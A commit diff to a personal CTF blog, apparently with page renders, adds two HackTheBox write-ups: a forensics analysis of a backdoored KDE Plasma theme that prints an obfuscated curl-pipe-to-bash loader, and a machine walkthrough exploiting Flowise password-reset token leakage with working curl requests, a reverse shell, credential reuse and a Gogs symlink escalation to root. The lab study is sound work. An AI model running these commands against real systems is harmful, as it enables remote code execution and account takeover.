

Before and after one commit to yisdown/yisdown.github.io, a Jekyll site: the page built from writeups.html, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
Update v1

````diff
--- /dev/null
+++ b/_posts/HackTheBox/2026-06-12-sp00ky-theme.md
@@ -0,0 +1,64 @@
+---
+layout: post
+title: "Sp00ky Theme"
+date: 2026-06-12
+categories: [Forensics]
+difficulty: Easy
+platform: HackTheBox
+tags: [forensics, linux]
+excerpt: "Analyzing a malicious KDE Plasma theme that hides a backdoor inside a widget."
+---
+
+## Analysis
+
+### Challenge Description
+
+```text
+I downloaded a very nice Halloween global theme for my Plasma installation and a couple of widgets!
+It was supposed to keep the bad spirits away while I was improving my ricing skills...
+However, now strange things are happening and I can't figure out why...
+```
+
+In this challenge, we are given a folder named `plasma` containing three directories:
+
+1. `plasmoids`
+2. `look-and-feel`
+3. `desktoptheme`
+
+While navigating through the `plasmoids` directory, I didn't find anything particularly interesting at first. However, after inspecting the `utils.js` file inside one of the widget code directories, I discovered the following:
+
+```js
+const NET_DATA_SOURCE =
+    "awk -v OFS=, 'NR > 2 { print substr($1, 1, length($1)-1), $2, $10 }' /proc/net/dev";
+
+const PLASMOID_UPDATE_SOURCE =
+    "UPDATE_URL=$(echo 952MwBHNo9lb0M2X0FzX/Eycz02MoR3X5J2XkNjb3B3eCRFS | rev | base64 -d); curl $UPDATE_URL:1992/update_sh | bash"
+```
+
+The first command simply collects network traffic statistics from `/proc/net/dev`.
+
+The second command is much more suspicious. It reverses a string, decodes it using Base64, stores the result in `UPDATE_URL`, and then downloads and executes a script using:
+
+```bash
+curl $UPDATE_URL:1992/update_sh | bash
+```
+
+This is a classic indicator of malicious behavior, as it downloads and immediately executes remote code.
+
+To reveal the hidden URL, we need to reverse the string and decode it from Base64:
+
+```bash
+echo 952MwBHNo9lb0M2X0FzX/Eycz02MoR3X5J2XkNjb3B3eCRFS | rev | base64 -d
+```
+
+Output:
+
+```text
+HTB{pwn3d_by_th3m3s!?_1t_c4n_h4pp3n}
+```
+
+The decoded value is actually the challenge flag.
+
+## Flag
+
+`HTB{pwn3d_by_th3m3s!?_1t_c4n_h4pp3n}`
--- /dev/null
+++ b/_posts/HackTheBox/2026-06-15-silentium.md
@@ -0,0 +1,141 @@
+---
+layout: post
+title: "Silentium"
+date: 2026-06-12
+categories: [Machine]
+difficulty: Easy
+platform: HackTheBox
+tags: [linux]
+excerpt: "Exploiting Flowise and Gogs vulnerabilities."
+---
+
+## Enumeration
+
+Initial enumeration revealed only SSH and HTTP exposed externally.
+
+```bash
+nmap -sC -sV -p- --min-rate 5000 <TARGET_IP> -oN nmap.txt
+```
+
+Results:
+
+```text
+22/tcp open ssh
+80/tcp open http
+```
+
+Visiting the web application redirected to `silentium.htb`, so the hostname was added locally:
+
+```bash
+echo "<TARGET_IP> silentium.htb" | sudo tee -a /etc/hosts
+```
+
+Since only HTTP was exposed, virtual host enumeration was the next step.
+
+```bash
+gobuster vhost \
+-u http://silentium.htb \
+-w /usr/share/wordlists/dirb/common.txt \
+--append-domain
+```
+
+Discovered:
+
+```text
+staging.silentium.htb
+```
+
+After updating `/etc/hosts`, the new virtual host exposed a Flowise instance.
+
+---
+
+## User Flag
+
+### CVE-2025-58434
+
+The Flowise instance exposed a vulnerable forgot-password endpoint that returned password reset tokens directly inside the API response:
+
+```bash
+curl -X POST \
+http://staging.silentium.htb/api/v1/account/forgot-password \
+-H "Content-Type: application/json" \
+-d '{"user":{"email":"ben@silentium.htb"}}'
+```
+
+The response included a valid `tempToken`. The password was reset using:
+
+```bash
+curl -X POST \
+http://staging.silentium.htb/api/v1/account/reset-password \
+-H "Content-Type: application/json" \
+-d '{
+"tempToken":"<TOKEN>",
+"password":"<NEW_PASSWORD>",
+"confirmPassword":"<NEW_PASSWORD>"
+}'
+```
+
+After authentication, access to the Flowise dashboard was obtained.
+
+
+### CVE-2025-59528
+
+Flowise 3.0.5 contained an insecure evaluation issue in `customMCP`.
+
+Using the generated API key, arbitrary JavaScript execution was achieved through the endpoint:
+
+```text
+/api/v1/node-load-method/customMCP
+```
+
+This payload executed commands on the backend and returned a reverse shell. That landed a shell inside the Flowise Docker container.
+
+
+### Pivot to Host
+
+Container enumeration revealed credentials stored in environment variables:
+
+```bash
+env
+```
+
+Relevant values:
+
+```text
+FLOWISE_USERNAME=ben
+FLOWISE_PASSWORD=<REDACTED>
+```
+
+Using SSH:
+
+```bash
+ssh ben@silentium.htb
+```
+
+We obtained Host access and the User Flag.
+
+---
+
+## Privilege Escalation
+
+Local enumeration identified an internal Gogs instance running as root. A tunnel exposed the service:
+
+```bash
+ssh -L 8080:127.0.0.1:3001 ben@silentium.htb
+```
+
+### CVE-2025-8110
+
+The vulnerability allowed arbitrary file modification through symlink handling.
+
+A repository containing a symbolic link targeting `/etc/sudoers.d/` was created and updated through the API.
+
+This granted passwordless sudo access.
+
+Verification:
+
+```bash
+sudo id
+...
+uid=0(root)
+```
--- a/_sass/_base.scss
+++ b/_sass/_base.scss
@@ -167,6 +167,7 @@ ul, ol {
   border: 1px solid;
   transition: all $transition-fast;
 
+  &--machine     { color: #4cc9f0;   border-color: rgba(#4cc9f0,0.4);   background: rgba(#4cc9f0,0.08); }
   &--web     { color: $cyan-accent;   border-color: rgba($cyan-accent,0.4);   background: rgba($cyan-accent,0.08); }
   &--forensics    { color: $purple-bright;    border-color: rgba($purple-bright,0.4);    background: rgba($purple-bright,0.08); }
   &--pwn     { color: $red-alert;     border-color: rgba($red-alert,0.4);     background: rgba($red-alert,0.08); }
````
